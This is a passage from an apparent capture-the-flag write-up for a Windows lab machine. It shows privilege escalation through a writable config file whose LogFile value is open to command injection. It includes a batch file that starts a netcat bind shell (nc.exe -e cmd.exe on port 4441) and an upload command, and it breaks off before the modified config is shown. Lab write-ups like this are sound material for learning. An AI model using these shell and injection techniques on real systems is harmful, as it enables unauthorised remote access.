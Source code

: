 ```

12/21/2018  06:44 AM                84 backup.bat
07/05/2019  12:54 AM               402 batch.log
12/13/2018  03:56 PM                93 clean.ini
12/08/2018  10:17 AM             1,232 dellog.ps1
07/05/2019  12:54 AM                35 log.txt
12/13/2018  03:54 PM    <DIR>          spool
               5 File(s)          1,846 bytes
               1 Dir(s)  92,184,432,640 bytes free
```

I guessed that the `clean.ini` file is somehow used by the `dellog.ps1` script as input parameters:

```
C:\util\scripts>type clean.ini
type clean.ini
[Main] 
LifeTime=100 
LogFile=c:\util\scripts\log.txt
Directory=c:\inetpub\logs\logfiles

C:\util\scripts>type dellog.ps1
type dellog.ps1
Access is denied.
```

I can't read the `dellog.ps1` script but the `clean.ini` is writable by user `simple` since he's a member of the `project-managers` group:

```
C:\util\scripts>icacls clean.ini
icacls clean.ini
clean.ini NT AUTHORITY\SYSTEM:(F)
          BUILTIN\Administrators:(F)
          HACKBACK\project-managers:(M)

Successfully processed 1 files; Failed processing 0 files
```

The `LogFile` parameter is vulnerable to command injection. The powershell script that wipes the logs uses that parameter to pipe the output of another command so we can use the `&` character to execute arbitrary commands after the log file has been written to.

I uploaded the following batch file that binds a shell on port 4441. The `snow.txt` file is just there so I can check if the batch file was run by the scheduler.

```
echo check > c:\programdata\snow.txt
C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe -L -p 4441
```

```
# ./hackback_write.py "/programdata/a.bat" a.bat
```

Then I modified the `clean.ini` as follows:
